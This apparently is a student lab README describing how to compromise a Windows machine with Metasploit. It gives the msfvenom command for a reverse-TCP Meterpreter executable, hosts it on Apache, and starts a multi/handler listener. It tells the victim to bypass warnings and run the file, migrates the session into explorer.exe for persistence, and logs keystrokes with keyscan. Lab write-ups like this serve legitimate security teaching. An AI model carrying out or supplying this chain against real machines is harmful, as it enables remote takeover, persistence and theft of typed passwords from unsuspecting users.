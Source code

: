 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig
![image](https://github.com/user-attachments/assets/5df1f413-b774-4d9a-ae25-3caf62035504)

Create a malicious executable file fun.exe using msenom command ``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe```
![image](https://github.com/user-attachments/assets/44c48e38-d312-4774-8322-a0664b016b1b)

copy the fun.exe into the apache ``/var/www/html``` folder
![image](https://github.com/user-attachments/assets/e3e1bd9d-4598-4443-ae5f-0ca410e7e883)

Start apache server ```sudo systemctl apache2 start```
![image](https://github.com/user-attachments/assets/f30797d9-2b9a-47c9-8b3f-0fb983579dd8)

Check the status of apache2 ```sudo apache2 status```
![image](https://github.com/user-attachments/assets/a9931212-23e0-4901-8e09-e6172ebfc5ce)

#### Invoke msfconsole:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set ```PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit```
![image](https://github.com/user-attachments/assets/daf2ff9e-3bf6-42d1-a516-7fd2d732a405)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
![image](https://github.com/user-attachments/assets/7526775d-16cf-485e-8450-475bbf5f2624)


Bypass any warning boxes, double-click the file, and allow it to run. On kali give the command exploit
![image](https://github.com/user-attachments/assets/72713ea2-718b-4d6a-b760-4c9a50dbb885)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

#### Post Exploitation:
The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name
![image](https://github.com/user-attachments/assets/cb7fa5e9-55b7-4f34-ab2a-d4d4648cba6b)

```keyscan_dump``` Shows the keystrokes captured so far
![image](https://github.com/user-attachments/assets/63561e30-218e-4506-8a9e-8febfda8a03d)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
